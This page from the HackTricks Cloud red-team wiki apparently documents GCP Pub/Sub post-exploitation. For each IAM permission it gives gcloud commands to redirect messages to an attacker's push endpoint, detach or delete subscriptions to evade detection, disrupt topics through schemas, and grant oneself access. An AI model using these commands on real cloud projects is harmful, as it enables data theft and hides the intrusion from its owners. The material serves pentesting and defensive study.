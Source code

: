 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

For more information about Pub/Sub check the following page:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publish a message in a topic, useful to **send unexpected data** and trigger unexpected functionalities or exploit vulnerabilities:

```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```

### `pubsub.topics.detachSubscription`

Useful to prevent a subscription from receiving messages, maybe to avoid detection.

```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```

### `pubsub.topics.delete`

Useful to prevent a subscription from receiving messages, maybe to avoid detection.\
It's possible to delete a topic even with subscriptions attached to it.

```bash
gcloud pubsub topics delete <TOPIC NAME>
```

### `pubsub.topics.update`

Use this permission to update some setting of the topic to disrupt it, like `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Give yourself permission to perform any of the previous attacks.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Get all the messages in a web server:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Create a subscription and use it to **pull messages**:

```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```

### `pubsub.subscriptions.delete`

**Delete a subscription** could be useful to disrupt a log processing system or something similar:

```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```

### `pubsub.subscriptions.update`

Use this permission to update some setting so messages are stored in a place you can access (URL, Big Query table, Bucket) or just to disrupt it.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Give yourself the permissions needed to perform any of the previously commented attacks.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attack a schema to a topic so the messages doesn't fulfil it and therefore the topic is disrupted.\
If there aren't any schemas you might need to create one.

{% code title="schema.json" %}
```json
{
    "namespace": "com.example",
    "type": "record",
    "name": "Person",
    "fields": [
        {
            "name": "name",
            "type": "string"
        },
        {
            "name": "age",
            "type": "int"
        }
    ]
}
```
{% endcode %}

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
    --schema=projects/<project-name>/schemas/<topic-id> \
    --message-encoding=json
```

### `pubsub.schemas.delete`

This might look like deleting a schema you will be able to send messages that doesn't fulfil with the schema. However, as the schema will be deleted no message will actually enter inside the topic. So this is **USELESS**:

```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```

### `pubsub.schemas.setIamPolicy`

Give yourself the permissions needed to perform any of the previously commented attacks.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

This is will create a snapshot of all the unACKed messages and put them back to the subscription. Not very useful for an attacker but here it's:

```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
    --subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
    --snapshot=YOUR_SNAPSHOT_NAME
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
